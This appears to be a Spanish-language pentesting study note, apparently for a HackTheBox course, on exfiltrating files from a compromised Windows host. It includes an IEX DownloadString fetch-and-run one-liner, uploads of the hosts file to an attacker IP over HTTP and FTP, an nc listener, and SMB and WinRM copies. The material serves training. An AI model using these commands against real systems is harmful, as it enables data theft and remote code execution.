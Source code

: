 #### PowerShell - Web Uploads
##### PsUpload
Podemos utilizar el script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) , que acepta los parámetros `-File` y `-Uri`
```powershell
# Descargamos el archivo
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
# Cargamos el archivo en el contexto actual de la sesión PS con dot-sourcing
. .\psupload.ps1
# Ejecutamos la subida
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
##### PowerShell Base64 
Otra forma es envíar el contenido del archivo con una solicitud POST utilizando `Invoke-WebRequest` or `Invoke-RestMethod` 
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
###### Recibir la solicitud - pwnbox
```bash
nc -lvnp 8000 
# Tras copiar el contenido: 
echo <base64> | base64 -d -w 0 > hosts
```

#### SMB
```powershell
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\share\
```
En ocasiones, si Windows no encuentra el protocolo SMB disponible, intenta utilizar WebDAV  como alternativa en los puertos 80 ó 443

#### FTP 
##### Con UploadFile
```powershell
`(New-Object System.Net.WebClient).UploadFile("ftp://192.168.1.10/datos.txt", "C:\ruta_local\datos.txt", (New-Object System.Net.NetworkCredential("anonymous", "anonymous@example.com")))`
```
##### Sin shell interactiva
```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt 
C:\htb> echo binary >> ftpcommand.txt 
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt 
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
```
#### WinRM
```powershell
$Session = New-PSSession -ComputerName DATABASE01
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

---